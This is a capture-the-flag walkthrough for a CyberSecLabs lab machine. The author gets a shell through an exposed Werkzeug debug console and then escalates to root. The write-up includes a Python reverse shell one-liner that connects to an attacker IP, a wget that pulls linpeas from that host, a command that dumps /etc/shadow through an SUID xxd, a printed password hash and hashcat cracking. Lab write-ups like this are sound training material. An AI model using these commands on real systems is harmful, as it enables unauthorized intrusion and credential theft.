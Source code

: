 # CyberSecLabs : Debug

```Concept of WSGI```
Werkzeug is a comprehensive WSGI web application library.

WSGI means “Web Server Gateway Interface”. It is a specification that describes how a web server communicates with web applications, and how web applications can be chained together to process one request.

extra - reading : https://medium.com/swlh/hacking-flask-applications-939eae4bffed

Nmap

```zsh
nmap -sS -p- -r -Pn -T4 -v 172.31.1.5
```
You will see port ```80``` is open. Visit it is a simple website.

Dirsearch

This is not pre-installed in kali. Download it from github.

```zsh
python3 dirsearch.py -u http://172.31.1.5:80 -e r -R 3
```

https://palletsprojects.com/p/werkzeug/

```An interactive debugger that allows inspecting stack traces and source code in the browser with an interactive interpreter for any frame in the stack.```
This caught my eye. When I visited ```http://172.31.1.5/blog/2``` I could see some stack traces.

Dirsearch returned this interesting directory:
```[02:50:06] 200 -    2KB - /console```

On visting there was probably misconfigured console of werkzeug which uses python.

```import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.40",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);```

Start a listener before entering the above command with proper IP and you will have a shell. I have a edited python script (in the files part of github) which can achieve the same.

Note sometimes it might not work. It processes a request and then it takes time before it can try another.

You will have shell. Upload your linpeas

```sh
wget http://10.10.0.40:8000/linpeas.sh
```
Run it and you will see that it marks ```/usr/bin/xxd ```(the hex editor) has ```SUID``` bit set, use it to open the /root/system.txt . Will not work coz it is inside another directory.
I try to open the ```/etc/shadow```

```zsh
/usr/bin/xxd "/etc/shadow" | xxd -r
```
Copy the hash ```$6$YbP4.h/m$HTWC5ubw1dJK1Ed11RExV/55T0JlRnjtPcCyQEugG470lfZG2Eo8Id2ZeEb2vBnHRTVZls2kZNnaC7GZRCjwf``` but in a file ```hash.txt```. Now crack it.

```zsh 
hashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt --force
```
-- force coz if you are using VM and do not have a GPU for cracking

Get the password. Spawn a tty shell using 

```sh
python -c 'import pty; pty.spawn("/bin/sh")'
```
Now just su root and enter the cracked pass.
